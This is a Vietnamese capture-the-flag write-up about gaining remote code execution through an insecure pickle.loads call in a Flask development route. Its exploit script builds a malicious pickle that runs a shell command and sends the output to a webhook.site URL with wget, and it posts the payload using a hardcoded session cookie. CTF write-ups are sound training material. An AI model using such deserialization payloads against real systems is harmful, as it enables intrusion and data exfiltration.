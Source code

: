![image](https://github.com/user-attachments/assets/fe6f5054-38f9-4c85-ba45-97d4f2150ade)

# **ANALYZE**

Mục tiêu của ta chính là lấy được FLAG_STAGE_5 – không phải qua HTTP route, mà được lưu ra file ngẫu nhiên trên server.

```
# setup.py
with open(f"flag_{uuid4().hex + uuid4().hex + uuid4().hex}.txt", "w") as f:
    f.write(FLAG_STAGE_5)
```
Tên file: flag_<96_hex_chars>.txt → không thể đoán (UUID4)

Flag không có route đọc trực tiếp → cần RCE hoặc arbitrary file read

Và chúng ta đã có được Secret_key kiếm được từ Stage_1 .

Và ở Stage_4 , ta đã enable dev mode 

Bây giờ ta cần RCE thông qua Pickle trong `/development/cookie-verify`

```
@app.route("/development/cookie-verify", methods=["POST"])
@login_required
@moderator_required
@development_routes_enabled
def verify_cookie():
    cookie = request.get_json().get("cookie")
    data = pickle.loads(base64.b64decode(cookie.encode()))
```
pickle.loads() trên dữ liệu người dùng → Deserialization RCE

# **EXPLOIT

Và là mod , nhưng đã được enable quyền dev thì ta hoàn toàn có thể RCE qua Pickle

```
fetch('/development/cookie-verify', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({ cookie: "eyJ1c2VyIjp7InVzZXJuYW1lIjoiY2FuaGVldSIsInJvbGUiOiJtb2RlcmF0b3IifX0.aFpiHQ.h4DPKcG20y9JL2pEUGBY7GlAOYw" })
});

```

Và script để giải bài này chính là : 

```
import base64
import pickle
import hashlib
import os
import requests

# Step 1: Create malicious class for RCE
class RCE:
    def __reduce__(self):
        return (os.system, ("<command> | base64 | tr -d '\n' | xargs -I % wget https://webhook.site/c47162bb-f1c9-4a44-88ce-1703bcdad082?data=%",))

# Step 2: Forge payload
def create_payload():
    value = pickle.dumps(RCE())  # malicious object
    value_b64 = base64.b64encode(value)

    return value_b64

# Step 3: Send it to the target server
def send_payload(base_url, payload_cookie):
    url = f"{base_url}/development/cookie-verify"
    headers = {"Content-Type": "application/json","Cookie": f"session=eyJ1c2VyIjp7InJvbGUiOiJtb2RlcmF0b3IiLCJ1c2VybmFtZSI6ImJlbl96byJ9fQ.aFWT6w.k-H06KJiTLW1kPY2oALzkQYk1yY"}
    json_data = {"cookie": payload_cookie.decode()}

    resp = requests.post(url, json=json_data, headers=headers)
    print(f"[+] Status: {resp.status_code}")
    print(f"[+] Response:\n{resp.text}")

# === CONFIG ===
base_url = "https://springford-of-indomitable-gold.gpn23.ctf.kitctf.de/"  # ⚠️ Change to target
# === EXECUTION ===
payload_cookie = create_payload()
print(payload_cookie)
send_payload(base_url, payload_cookie)
```





# **FLAG**


